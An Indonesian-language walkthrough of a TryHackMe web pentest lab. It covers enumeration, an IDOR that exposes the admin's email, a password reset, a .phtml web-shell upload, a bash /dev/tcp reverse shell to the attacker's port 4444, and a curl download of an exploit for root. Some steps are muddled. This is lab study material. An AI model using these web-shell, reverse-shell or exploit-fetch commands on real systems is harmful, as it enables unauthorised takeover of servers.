

# TRYHACKME Jr Penetration tester
## Guided Pentest : WEB
### Enumeration
Kita cari informasi apa yang bisa kita dapat disini, dengan cara banyak.
  $ nmap -sV -sC -oN nmap.txt -T5/4/3/2 [IP_Target]
  dengan begitu kita dapat mengetahui port yang terbuka yaitu
    Port open 80 nginx (version)
    Port open 3060
    dan kita bedah directory web tersebut dengan 
    $ gobuster dir --url http://[IP_Target] -w /path/to/wordlists
    kita akan menemukan :
      /login.php ---> untuk Login
      /reset.php ---> untuk reset password (mungkin)
      /admin.php ---> status (302) redirect ke /login
      /profile.php ---> profil pengguna
      dan kita masukkan user yang sudah di sediakan tryhackme.com
      dan jika sudah masuk dashboard user pergi ke profile
      kita lihat parameter yang memanggil http://[IP_TARGET]/profile.php?id=[6] --> memanggil 6
## Breakdown
      bagaimana jika kita mengganti dengan angka 1 atau yang lain
      kita ganti ke http://[IP_TARGET]/profile.php?id=1 maka kita bisa melihat email admin
      dan ini vuln pertama dan yang kedua [IDOR](https://ridhomarhaban2000.medium.com/memahami-idor-insecure-direct-object-references-ab176af79cb1)
      yaitu dimana web langsung memberikan url ke objek tanpa validasi atau verifikasi dan kita bisa memanfaatkan celah itu lewat ini, dan kita bisa reset passwordnya si admin hanya dengan emailnya
      kalau sudah di reset passwordnya admin kita masuk ke upload untuk upload file **Inspect untuk mengetahui apa yang tidak di perbolehkan upload**
      karena di situ dia pakai blocklist bukan allowlist maka kita bisa upload file.phtml untuk payloadnya dan kita diberitahu bahwa file kita berada
      di http://[IP_TARGET]/uploads/documents/file.phtml.
## Reverse Shell
      dan kita bisa coba dengan mengetik http://[IP_TARGET]/uploads/documents/file.phtml?cmd=**whoami**
      maka pasang listener di port 4444 kita dengan $ nc -lvnp 4444
      dan jika bisa maka kita bisa ketik http://[IP_TARGET]/uploads/documents/file.phtml?cmd=curl "http://[IP_TARGET]/uploads/documents/file.phtml?cmd=bash+-c+'bash+-i+>%26/dev/tcp/[IP_KITA]/4444+0>%261'"
      dan kita dapat shell dan cek versi kernel
      masih ingat kita bisa upload .phtml??
      Ya!! kita bisa upload cve terbaru ini di sini caranya $ curl https://copy.fail/exp
      lalu rename exp menjadi exp.phtml
      kemudian upload dan di reverse shell ubah dari .phtml menjadi .py lalu
## Root Moment
      ketik $ python3 exp.py && su
      dan kamu sudah menjadi # root
      ----Sekian Terima kasih dari saya ini hanya untuk edukasi bukan untuk illegal-------

      
